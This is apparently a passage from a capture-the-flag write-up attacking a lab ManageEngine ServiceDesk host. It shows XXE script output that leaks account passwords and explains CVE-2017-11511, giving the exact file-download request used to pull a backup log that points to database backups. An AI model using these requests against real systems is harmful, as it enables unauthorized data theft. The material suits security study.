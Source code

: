 

    PS > python .\mesep_xxe.py 10.10.10.132 "C:\temp\Password Audit\it_logins.txt"

    local Windows account created

    username: alice
    password: $sys4ops@megabank!
    admin required: no

    shadow admin accounts:

    mike_adm:Password1
    dr_acc:dr_acc



Now I have more passwords to try.

### CVE-2017-11511 - LFI / Arbitrary File Download

#### Vulnerability

This is [another
vulnerability](https://www.tenable.com/security/research/tra-2017-31)
that provides access to files on the system, this time through a local
file include. However, in this case, the target file must be given as a
relative path to one of four directories associated with the SDP
install, including option 4 which seems to intentionally open up all of
the SDP install. The vulnerability allows me to request any file
relative to that path.

I can't get `win.ini` like they show in the example, since it's on
`c:\`, and SDP is installed on `e:\`:

![](/img/1555101583626.png)

#### Extract Database Backup

[This article](https://blog.netxp.fr/manageengine-deep-exploitation/)
shows how to use this exploit to get the database back-ups from target.

First, I'll collect `E:\ManageEngine\ServiceDesk\bin\SDPbackup.log` from
`http://10.10.10.132:8080/fosagent/repl/download-file?basedir=4&filepath=\bin\SDPbackup.log`.
At the very bottom, I'll find the following:



    Zipfile created: E:\ManageEngine\ServiceDesk\bin\..\\backup\backup_postgres_9309_fullbackup_04_12_2019_17_43\backup_postgres_9309_fullbackup_04_12_2019_17_43_part_1.data
    Zipfile created: E:\ManageEngine\ServiceDesk\bin\..\\backup\backup_postgres_9309_fullbackup_04_12_2019_17_43\backup_postgres_9309_fullbackup_04_12_2019_17_43_part_2.data
    Backup Completed Successfully.
